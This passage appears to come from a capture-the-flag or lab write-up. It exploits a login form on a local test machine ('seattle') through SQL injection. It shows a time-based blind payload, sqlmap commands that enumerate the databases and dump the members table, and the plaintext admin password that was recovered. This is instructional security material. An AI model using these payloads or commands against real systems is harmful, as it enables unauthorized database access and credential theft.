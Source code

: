 ```

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: usermail=admin@example.com' AND SLEEP(5)-- ASKb&password=123
---
```

Enumerating this further with the `--dbs` option to see all the databases

```
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] seattle
```

Ok lets look at the tables in the seattle database by adding the `--tables` option in sqlmap

```
Database: seattle
[3 tables]
+----------------------------------------------------+
| tblBlogs                                           |
| tblMembers                                         |
| tblProducts                                        |
+----------------------------------------------------+
```

tblMembers looks like where the users are stored

```
sqlmap -u 'http://192.168.93.173/login.php' --data "usermail=admin@example.com&password=123" -p usermail --dbms=MySQL -D seattle -T tblMembers --dump
```

sqlmap shows the user for the administrator an password

```
admin@seattlesounds.net | Assasin1
```

not even hashed :)

## Admin session

After logging in as the admin we can view the logs and other administrative tasks.
